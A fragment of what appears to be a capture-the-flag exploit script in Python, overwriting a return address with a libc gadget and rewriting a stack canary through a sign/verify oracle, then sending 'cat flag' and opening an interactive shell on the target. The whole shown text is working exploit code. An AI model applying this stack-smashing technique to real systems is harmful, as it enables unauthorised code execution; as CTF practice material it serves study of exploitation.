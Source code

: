 ```py

  # write ret addr
  gadget = 0x10a45c + libc_addr
  ret = libc_addr + 0x979
  s = make_suffix(328, p64(ret) + p64(gadget))
  sig, _ = sign(c1 + s)
  v = verify(c2 + s, sig)

  # write canary
  s = make_suffix(256 + 8, canary + b'a' * 8 + b'X' * 8)
  sig, _ = sign(c1 + s)
  v = verify(c2 + s, sig)
  print(v)

  # return
  p.sendline(b'2')
  p.sendline(b'cat flag')
  p.interactive()


run()
```